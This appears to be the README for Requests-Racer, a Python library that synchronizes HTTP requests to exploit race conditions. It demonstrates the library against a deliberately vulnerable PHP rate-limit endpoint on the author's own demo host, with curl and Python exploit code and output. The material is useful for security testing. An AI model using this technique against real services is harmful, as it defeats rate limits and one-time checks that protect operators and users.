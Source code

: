 # The Problem

Suppose you have an endpoint vulnerable to a race condition. For example, consider this endpoint that you are not supposed to be able to access more often than once per minute:

```php
<?php
$now = microtime(true);
$ban_time = (float) file_get_contents('./race.ban');

echo "start: $now\n";

if ($now <= $ban_time) {
    die("you're banned\n");
}

usleep(100000); // do some processing for 100ms
echo "success\n";

file_put_contents('./race.ban', microtime(true) + 60); // ban for 1 minute
```

How do you quickly build a PoC for this?

# Python-Requests: absolutely useless

You might try using Requests, but that will perform the calls in series, so their execution will not overlap at all:

```python
>>> import requests
>>> res = [requests.get('https://aleksejs.scripts.mit.edu/race.php') for _ in range(3)]
>>> for req in res: print(req.text)
...
start: 1562013897.9938
success

start: 1562013898.914
you're banned

start: 1562013899.9254
you're banned

```

# cURL: not great, not terrible

You might try running mutiple instances of cURL in parallel, and that's a little better:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php
[1] 25671
[2] 25672
[3] 25673
[4] 25674
start: 1562015106.736
start: 1562015106.78
success
start: 1562015106.8535
you're banned
success
start: 1562015106.8786
start: 1562015106.8795
you're banned
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php
```

We've triggered the race once, but the rest of the requests arrived too late. And if you need to send large payloads of different sizes, you're going to have an even worse time:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"
[1] 25721
[2] 25722
[3] 25723
[4] 25724
start: 1562015251.716
start: 1562015251.7541
success
success
start: 1562015252.1507
you're banned
start: 1562015253.7403
you're banned
start: 1562015253.9519
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes"
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes"
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes"
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"

```

Those last three requests had no chance of succeeding.

Plus the output has all of this useless garbage in it and the outputs from the different requests are basically in a random order and interleaved. If you need to generate the requests dynamically, have fun writing that bash script, and if you want to process the output in any way, well, I don't envy you.

# The real solution

Running cURL in parallel synchronizes the time when the three requests will be *started*. But what you actually want to synchronize is the time when they *are sent completely* (and the server begins processing them). Because of network latency, synchronizing the former does not do a good job of synchronizing the latter, especially if your request payloads are large or differently-sized.

The way to synchronize the time when the request is done being sent is to first send most of the request in a mostly completely unsynchronized fashion, then synchronize the moment when you begin sending the last byte of each request.

Requests-Racer does this for you, while retaining the Requests API that you know and love:

```python
from requests_racer import SynchronizedSession

NUM_ATTEMPTS = 10

s = SynchronizedSession()

responses = [
    s.get('https://aleksejs.scripts.mit.edu/race.php') for _ in range(NUM_ATTEMPTS)
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562363494.288 1562363494.3031 1562363494.2941 1562363494.3054 1562363494.2977 1562363494.292 1562363494.2924 1562363494.3073 1562363494.2944 1562363494.3039
# outcomes: success success success success success success success success success success
```

```python
import time
from requests_racer import SynchronizedSession

s = SynchronizedSession()

responses = [
    s.post(
    	'https://aleksejs.scripts.mit.edu/race.php',
    	files={'a': open('/tmp/{}kbytes'.format(n), 'rb')}
    )
    for n in [1, 1, 10, 10, 100, 100, 1000, 1000, 1000, 1000]
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562363568.1738 1562363568.1745 1562363568.1751 1562363568.1747 1562363568.1738 1562363568.1753 1562363568.2005 1562363568.2007 1562363568.2005 1562363568.2039
# outcomes: success success success success success success success success success success
```

The requests are all processed by the backend within less than *30ms* of each other, even when they have massively different sizes.
